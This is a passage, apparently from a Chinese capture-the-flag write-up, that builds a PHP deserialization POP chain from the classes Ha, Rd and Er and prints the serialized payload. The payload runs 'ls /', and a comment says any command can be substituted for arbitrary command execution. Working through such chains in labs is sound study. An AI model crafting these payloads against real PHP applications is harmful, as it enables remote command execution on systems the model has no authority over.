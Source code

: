 正好Ha类中 可以满足并且可以作为pop链的开头 所以

```php
$a=new Ha();
$a->start1=new Rd();
$a->start=['POC'='1111']
$a->start1->cl=new Er();                     
```

所以输出pop的payload为

```php
<?php
highlight_file(__file__);
Class Rd{
    public $ending;
    public $cl;
 
    public $poc;
}
 
 
class Poc{
    public $payload;
 
    public $fun;
}
 
class Er{
    public $symbol;
    public $Flag='ls /';           //修改任意命令执行
 
}
 
class Ha{
    public $start;
    public $start1;
    public $start2="11111";         //类中要求start2的赋值
}
 
$a=new Ha();
$a->start1=new Rd();
$a->start=['POC'=>'1111'];
$a->start1->cl=new Er();
echo serialize($a);
?>
```

输出pop链为

```php
O:2:"Ha":3:{s:5:"start";a:1:{s:3:"POC";s:4:"1111";}s:6:"start1";O:2:"Rd":3:{s:6:"ending";N;s:2:"cl";O:2:"Er":2:{s:6:"symbol";N;s:4:"Flag";s:4:"ls /";}s:3:"poc";N;}s:6:"start2";s:5:"11111";}
```
